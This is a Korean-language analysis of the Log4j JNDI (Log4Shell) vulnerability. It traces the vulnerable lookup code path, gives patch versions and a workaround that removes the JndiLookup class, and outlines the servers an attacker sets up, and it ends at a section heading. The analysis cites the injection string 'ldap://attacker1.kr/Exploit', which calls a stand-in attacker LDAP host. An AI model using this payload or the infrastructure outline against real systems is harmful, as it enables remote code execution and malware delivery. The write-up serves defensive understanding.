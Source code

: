 ![image](https://user-images.githubusercontent.com/62640332/160655177-ccc22358-e53d-40b1-90e7-d814819a6f58.png)

resolve.lookup() 메소드는 PREFIX_SEPARATOR를 기준으로 구분하여 prefix와 name 변수를 설정하고 prefix로 실행할 lookup() 메소드를 설정한다. 

![image](https://user-images.githubusercontent.com/62640332/160655256-31ea6f42-8c80-4c2b-8fe6-aad79635585f.png)

취약점 공격을 위해서는 JNDI를 사용하므로, JNDILookup.lookup() 메소드를 실행한다.

![image](https://user-images.githubusercontent.com/62640332/160655329-8ef5740c-193c-4e5d-b6c6-6715e28ccb51.png)

JNDILookup.lookup() 메소드는 다시 jndiManager.lookup() 메소드를 실행 한다. 

취약점은 바로 jndiManager.lookup() 메소드로 인해 발생한다. 

인자로 전달된 “ldap://attacker1.kr/Exploit”에 대한 검증 절차 없이 바로 lookup() 기능을 통해 접근을 시도하여 컨텍스트를 검색함으로써 공격자 LDAP 서버 (attacker1.kr)에 Exploit 엔티티를 요청하게 된다.

![image](https://user-images.githubusercontent.com/62640332/160655527-3b9a89ae-eb49-4c49-895c-7b1f34076509.png)


- 취약점 조치 방안

취약한 버전이 확인된 경우, 아래와 같이 JAVA 버전에 따라 Log4j를 최신 버전으로 업데이트하여야 한다. 

- JAVA 8 이상 2.17.1 이상
- JAVA 7 2.12.4 이상
- JAVA 6 2.3.2 이상

업데이트가 어려운 경우, 임시 조치 방안으로 JndiLookup 클래스만 제거한다.

```
JndiLookup 클래스를 제거 명령어 예시

* zip –q –d log4j-core-*.jar org/apache/logging/log4j/core/lookup/ JndiLookup.class
```

<br>
<br>
<br>

---

### ㅁ 취약점 악용 방식 및 유형

ㅁ  공격 인프라 구성요소

- 쿼리 송신서버 : 공격 쿼리를 송신하는 서버이다. log4j 취약점이 가장 많이 이용되는 부분이 자바 기반 웹서버의 로깅 기능이므로 웹 접속이 가능한 시스템이면 쿼리 송신이 가능하다.
- 쿼리 수신서버 : JNDI 공격 명령이 성공하였다면 공격자가 구축해놓은 쿼리 수신 서버로 쿼리를 전송하게 된다. 취약점에 악용되는 쿼리 수신 서비스는 LDAP과 RMI가 대표적이다. 대부분의 공격자들은 추적을 피하기 위해 정상적인 서비스를 운영중인 서버를 해킹하여 공격 쿼리 서비스를 구축한다. 이때 서비스 프로그램의 구성에 따라 추후 행동하는 공격 패턴이 달라진다.
- Class 파일 유포서버 : 피해 시스템은 쿼리 수신 서버로부터의 명령을 받아 악성 Class 파일을 다운 받는다. 다운로드는 보통 웹 프로토콜을 통해 수행된다. 
- 악성코드 유포 서버 : Class 파일에 정의된 명령에 따라 추가 악성코드를 다운로드 받는다. 이 때 최종 악성코드를 배포할 수 있는 악성코드 유포 서버가 추가로 필요하다.

ㅁ 공격망 구성 방식

